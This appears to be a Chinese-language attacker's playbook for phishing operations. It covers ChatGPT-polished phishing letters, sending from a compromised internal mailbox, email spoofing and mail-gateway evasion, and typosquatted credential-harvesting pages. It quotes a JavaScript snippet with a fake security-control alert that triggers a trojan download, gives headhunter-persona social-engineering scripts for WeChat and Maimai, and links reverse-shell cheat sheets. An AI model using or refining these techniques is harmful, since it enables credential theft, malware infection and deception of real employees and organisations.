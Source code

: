 准备几套钓鱼信，按照场景分，结合 ChatGPT 润色。

钓鱼吃瓜邮件，或者举报邮件。

通过邮箱传递。

如果拿下一个内部邮箱账户，可以用来向内部发送钓鱼邮件，这样可信度更高。

**邮件伪造**

SPF

DKIM

DMARC

可以用 [https://github.com/BishopFox/spoofcheck](https://github.com/BishopFox/spoofcheck) 检测

还要对抗邮件网关，防止检测并退信，并且异常还会将你的样本留存在异常记录中。

##### 钓鱼短信

pass

如何防止如熊猫吃短信这种 App 报成垃圾短信？

##### 钓鱼站点

模拟出一个真实钓鱼页面，迷惑受害者输入账户，通过 JS 正则验证输入账户是否正确，所有信息格式正确后通过 Javascript Fetch or XMLHttpRequest API 发送数据到服务器，服务器通过参数来获取数据并存入本地数据库或文件。

1.  使用 Typosquatting 攻击选择一个相似域名，比如 www.baidu.com，变为 www.baidU.com
2.  制作 Web 页面，如 VPN、OA

Nginx 反向代理嗅探明文账户。

最近就遇到一个静态页面钓鱼站点，一打开页面就先弹窗，后跳转自动下载木马。

```javascript
window.alert("您未安装安全输入控件，请下载并安装控件后刷新页面即可登录")
window.onload = function(){
    window.location.href='./static/active.exe';
}
```

##### 社交网络

钓鱼路径：邮件钓鱼基本没人点，大多都是社交或者客服钓鱼，要针对对外业务的人员。

钓鱼话术：以猎头身份微信找人聊。钓鱼也可以拿到，内部系统账户人员信息，钓鱼先养号，朋友圈先发，开微信公众号。怎么知道那边受害者信息？就说通过猎头拿到的，去按照受害者所在地区提供对应岗位。提前养号脉脉，获得应聘人员权限。

## 2 反弹 Shell

[https://highon.coffee/blog/reverse-shell-cheat-sheet/](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
